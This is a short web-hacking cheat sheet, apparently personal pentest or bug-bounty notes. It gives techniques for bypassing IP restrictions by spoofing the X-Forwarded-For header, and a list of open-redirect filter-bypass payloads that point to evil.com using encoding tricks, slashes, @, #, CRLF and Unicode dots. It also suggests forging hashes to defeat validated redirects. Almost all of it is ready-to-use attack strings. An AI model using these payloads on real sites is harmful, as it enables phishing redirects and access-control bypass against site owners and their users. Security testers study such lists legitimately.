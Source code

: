 # IP RESTRICTION BYPASS
"X-Forwarded-For" http header with value of needed ip address<br>
IP address spaces reserved for private networks<br>
10.0.0.0        -   10.255.255.255  (10/8 prefix)<br>
172.16.0.0      -   172.31.255.255  (172.16/12 prefix)<br>
192.168.0.0     -   192.168.255.255 (192.168/16 prefix)<br>
# OPEN REDIRECT
Simply try to change the domain<br>
Example: ?redirect=https://example.com --> ?redirect=https://evil.com<br>
Bypass the filter when protocol is blacklisted using //<br>
Example: ?redirect=https://example.com --> ?redirect=//evil.com<br>
Bypass the filter when double slash is blacklisted using \\<br>
Example: ?redirect=https://example.com --> ?redirect=\evil.com<br>
Bypass the filter when double slash is blacklisted using http: or https:<br>
Example: ?redirect=https://example.com --> ?redirect=https:example.com<br>
Bypass the filter using %40<br>
Example: ?redirect=example.com --> ?redirect=example.com%40evil.com<br>
Bypass the filter if it only checks for domain name<br>
Example: ?redirect=example.com --> ?redirect=example.comevil.com<br>
Bypass the filter if it only checks for domain name using a dot %2e<br>
Example: ?redirect=example.com --> ?redirect=example.com%2eevil.com<br>
Bypass the filter if it only checks for domain name using a query/question mark ?<br>
Example: ?redirect=example.com --> ?redirect=evil.com?example.com<br>
Bypass the filter if it only checks for domain name using a hash %23<br>
Example: ?redirect=example.com --> ?redirect=evil.com%23example.com<br>
Bypass the filter using a ° symbol<br>
Example: ?redirect=example.com --> ?redirect=example.com/°evil.com<br>
Bypass the filter using a url encoded Chinese dot %E3%80%82<br>
Example: ?redirect=example.com --> ?redirect=evil.com%E3%80%82%23example.com<br>
Bypass the filter if it only allows you to control the path using a nullbyte %0d or %0a<br>
Example: ?redirect=/ --> ?redirect=/%0d/evil.com<br>
# HASH REDIRECTION
some sites may use hash to identify if redirect link is valid
http://sample.com/?url=https://valid_redirect.com&hash=encrypted_hash_value
just generate hash for needed website
